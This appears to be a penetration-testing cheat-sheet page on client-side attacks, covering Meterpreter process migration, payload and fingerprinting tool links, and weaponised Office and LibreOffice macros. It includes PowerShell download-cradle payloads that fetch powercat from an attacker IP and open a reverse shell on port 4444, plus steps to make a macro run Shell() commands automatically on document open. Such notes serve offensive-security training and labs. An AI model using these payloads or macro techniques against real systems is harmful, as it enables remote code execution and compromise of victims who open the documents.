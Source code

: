 # Client-side attacks

{% hint style="info" %}
If a process dies or closes soon, migrate to another using `meterpreter > run post/windows/manage/migrate`
{% endhint %}

## [https://github.com/mgeeky/PackMyPayload](https://github.com/mgeeky/PackMyPayload)

## Client fingerprinting

[https://github.com/laramies/theHarvester](https://github.com/laramies/theHarvester)

[https://canarytokens.com/](https://canarytokens.com/)

## Office / OpenOffice / LibreOffice

### LibreOffice > Find version

```
LibreOffice\program\version.ini
soffice.exe --version
```

Bear in mind that older client-side attack vectors, including _Dynamic Data Exchange_ (DDE) and various _Object Linking and Embedding_ (OLE) methods do not work well today without significant target system modification.

{% embed url="https://www.hacking.reviews/2017/02/hack-remote-pc-with-apache-openoffice.html?m=1" %}

{% embed url="https://github.com/rmdavy/badodf/" %}

{% code overflow="wrap" fullWidth="true" %}
```bash
- Create a blank Word document and save it as mymacro.doc
- Open Macro section and create a New Macro, e.g. the name MyMacro // Important: in the Macros in dropdown select mymacro (Document)

# Other options for macro payload
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://$ATTACKER_IP/Inv-Pow.ps1')
```
{% endcode %}

Go to **Tools > Macros > Basic** and create a macro under the "document tree", add **Shell()** commands between **Sub X... End Sub** Then go to **Tools > Customize > Events** and select the macro to being executed under the event of **"Open Document".**

.doc, .docm, .xlsm , .odt, .ods and others are vulnerable formats
